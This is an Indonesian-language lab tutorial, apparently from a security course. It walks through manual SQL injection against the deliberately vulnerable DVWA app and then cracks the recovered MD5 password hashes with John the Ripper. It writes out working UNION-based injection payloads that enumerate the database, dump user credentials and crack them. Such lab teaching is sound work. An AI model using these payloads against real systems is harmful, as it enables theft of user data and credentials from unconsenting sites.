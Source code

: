 # Lesson 6: Manual SQL Injection, John the Ripper

1. Buka browser di backtrack kemudian akses alamat ip dari server metasploit.

2. Akses halaman login DVWA.

3. Masukkan user dan password.

4. Klik tab DVWA Security, atur tingkat keamanan ke low dan klik submit.
![Gambar](image/10-settinglow.PNG)

5. Klik tab SQL Injection.
![Gambar](image/22-sql-injection.PNG)

6. Normalnya, kita bisa memasukkan angka pada field yang tersedia untuk menampilkan data user yang sesuai idnya dengan input. 
![Gambar](image/23-hasil-query.PNG)

7. Namun kita bisa menambahkan karakter "%' or '0' = '0" untuk menampilkan semua data. Perbandingan nilai '0' = '0' akan selalu memberikan nilai benar yang mengakibatkan semua data yang ada di database ditampilkan.
![Gambar](image/24-hasil-sql-injection.PNG)

8. Kita juga bisa mengakses versi dari database yang digunakan dengan memasukkan potongan program berikut.
```
%' or 0=0 union select null, version() #
```
![Gambar](image/25-version.png)

9. Mendapatkan user dari database.
```
%' or 0=0 union select null, user() #
```
![Gambar](image/26-database-user.png)

10. Mendapatkan nama database.
```
%' or 0=0 union select null, database() #
```
![Gambar](image/27-database-name.png)

11. Mendapatkan semua nama tabel yang berhubungan dengan user di information_schema
```
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%' #
```
![Gambar](image/28-userlike-table.png)

12. Mendapatkan semua field di information_schema di tabel user.
```
%' and 1=0 union select null, concat(table_name,0x0a, column_name) from information_schema.columns where table_name = 'users' #
```
![Gambar](image/29-user-table-field.png)

13. Menampilkan semua isi dari tabel users.
```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```
![Gambar](image/30-all-users-data.PNG)

14. Dari hasil sebelumnya, kita bisa membuat password file hash, ambil username dan hash file dari user, kemudian letakkan di notepad atau gedit dengan format USERNAME:PASSWORDHASH.
![Gambar](image/31-notepad.PNG)

15. Simpan ke /pentest/passwords/john dengan nama dvwa_password.txt.
![Gambar](image/32-saving-to-john.PNG)

16. Jalankan perintah berikut.
```
./john --format=raw-MD5 dvwa_password.txt
```
![Gambar](image/33-the-result.png)


